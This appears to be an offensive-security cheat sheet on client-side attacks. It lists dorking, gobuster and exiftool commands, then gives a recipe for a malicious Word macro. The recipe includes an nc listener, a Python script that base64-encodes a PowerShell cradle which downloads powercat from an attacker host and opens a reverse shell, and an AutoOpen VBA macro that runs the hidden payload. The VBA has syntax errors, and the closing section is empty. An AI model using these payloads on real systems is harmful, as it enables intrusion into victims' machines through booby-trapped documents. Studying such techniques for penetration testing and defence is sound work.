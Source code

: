 # Client-side attacks

## Dorking

Passive: `site:www.site-to-hack.com filetype:pdf`
Gobuster: `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/commont.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
and embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc"
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run "Str"
End Sub
```

### Library files

```

```
